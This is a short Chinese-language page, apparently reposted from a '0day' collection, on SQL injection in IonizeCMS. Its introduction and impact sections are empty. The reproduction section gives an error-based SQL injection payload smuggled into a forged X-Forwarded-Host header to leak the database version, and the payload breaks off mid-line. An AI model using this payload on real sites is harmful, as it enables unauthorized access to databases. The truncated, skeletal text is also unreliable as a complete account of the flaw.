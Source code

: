 # IonizeCMS sql 注入

> 原文：[http://book.iwonder.run/0day/IonizeCMS/1.html](http://book.iwonder.run/0day/IonizeCMS/1.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

伪造 HTTP 头注入 在抓包哇：

```
X-Forwarded-Host: 'and(select 1 from(select count(*),concat((select concat(0x5e5e5e,version(),0x5e5e5e) from informat 
```


